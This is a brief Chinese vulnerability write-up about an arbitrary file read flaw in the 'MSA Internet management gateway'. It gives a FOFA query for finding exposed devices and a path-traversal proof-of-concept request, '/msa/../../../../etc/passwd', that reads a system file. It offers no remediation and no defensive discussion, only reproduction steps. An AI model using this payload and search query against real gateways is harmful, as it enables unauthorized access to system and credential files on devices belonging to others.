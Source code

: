 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>MSA 互联网管理网关</a-checkbox></br>

## FOFA

<a-checkbox checked>"互联网管理网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628845284708-f3f1c3ed-387c-49d6-a817-c1a8264fda2e.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1628845414925-23bff98f-8fb8-4fee-aee6-cd981973b368.png)



若有收获，就点个赞吧